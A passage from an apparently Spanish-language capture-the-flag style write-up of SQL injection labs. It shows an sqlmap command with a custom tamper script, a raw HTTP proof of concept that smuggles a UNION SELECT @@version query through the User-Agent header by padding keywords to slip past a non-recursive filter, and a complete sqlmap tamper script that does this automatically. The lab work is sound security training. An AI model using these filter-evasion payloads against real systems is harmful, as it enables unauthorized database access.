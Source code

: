```python
                    ret_val += payload[i].upper()
                else:
                    ret_val += payload[i]
            else:
                ret_val += payload[i].lower()
    return ret_val
```

SQLMap command line:

```bash
sqlmap -u 'http://6.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/camelcase.py --prefix="nonexistent'" --suffix=';#' --union-char=els --banner
```

### SQLi 7

En este escenario, el filtro insensible al caso corta todas las palabras reservadas, pero el filtro no es recursivo.

PoC:

```bash
GET / HTTP/1.1
Host: 7.sqli.labs
User-Agent: ' uZEROFILLnZEROFILLiZEROFILLoZEROFILLnZEROFILL ZEROFILLsZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt ZEROFILL@@ZEROFILLvZEROFILLeZEROFILLrZEROFILLsZEROFILLiZEROFILLoZEROFILLnZEROFILL; ZEROFILL-- ZEROFILL-ZEROFILL
```

Tampering script:

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Insert FILL after every character

    >>> tamper('INSERT')
    'IfillNfillSfillEfillRfillTfill
    """

    retVal = str()

    FILL = 'ZEROFILL'

    if payload:
        for i in range(len(payload)):
            retVal += payload[i] + FILL
    # Uncomment to debug
    # print "pretamper:", payload
    return retVal

```
